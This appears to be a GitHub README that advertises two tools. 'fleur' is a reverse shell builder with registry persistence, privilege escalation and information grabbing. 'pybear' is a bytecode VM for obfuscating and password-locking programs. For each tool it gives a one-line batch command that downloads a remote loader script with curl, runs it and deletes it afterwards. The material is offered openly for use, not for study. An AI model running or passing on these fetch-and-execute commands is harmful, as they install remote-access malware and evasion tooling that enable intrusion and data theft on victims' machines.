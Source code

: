 # fleur ⚜️
A simple reverse shell builder, with registry persistence, privilege escalation, information grabbing, and more.

```batch
curl -o fleur.py https://raw.githubusercontent.com/repossess/fleur/main/loader.py && start cmd.exe /k python fleur.py && timeout /t 1 >nul 2>&1 && del fleur.py && exit
```
#

# pybear 🐻
A discrete, custom python bytecode virtual machine. Finally let's you obfuscate and password lock programs with ease.

```batch
curl -o pyb.py https://raw.githubusercontent.com/repossess/pybear/main/loader.py && start cmd.exe /k python pyb.py && timeout /t 1 >nul 2>&1 && del pyb.py && exit
```
